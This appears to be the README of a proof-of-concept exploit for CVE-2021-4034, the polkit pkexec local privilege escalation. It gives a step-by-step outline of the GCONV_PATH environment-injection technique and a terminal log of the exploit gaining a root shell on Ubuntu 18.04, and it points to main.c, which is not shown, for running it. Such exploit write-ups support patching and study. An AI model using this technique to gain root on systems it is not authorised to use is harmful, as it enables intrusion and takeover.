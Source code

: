 # CVE: CVE-2021-4034
## Short description: Local Privilege Escalation in polkit’s pkexec


This exploit targets a setuid binary /usr/bin/pkexec, installed ubiquitously on linux systems. It leverages a few things:

1. insufficient check of argv[0] in pkexec. This allows to overwrite the environment variables.
2. Some environment variables like GCONV_PATH are privileged. If you can set them you can control a binary by executing arbitrary code. These special environment variables are stripped from setuid binaries for that reason. However, with the pkexec vulnerability we can undo the stripping and readd back a special environment variable.
3. GCONV_PATH variable allows to speciy a custom plugin to convert between charsets. 
4. Each time g_printerr() function prints an message, a conversion is triggered using my custom conversion plugin.
5. Triggering g_printerr() is simple: we pass in a nonexistent SHELL environment variable.


Log from my ubuntu test machine:


```
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.4 LTS
Release:	18.04
Codename:	bionic
$
$ ./main
Get effective uid: : 0
Setting real effective user id to 0... it returned: 0
bash: groups: command not found
Command 'lesspipe' is available in the following places
 * /bin/lesspipe
 * /usr/bin/lesspipe
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in '/usr/bin/dircolors'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
dircolors: command not found
# /usr/bin/id
uid=0(root) gid=1001(ubuntu) groups=1001(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(lxd),114(netdev)
#
```

To run the exploit on your Linux OS, see the instructions in the main.c
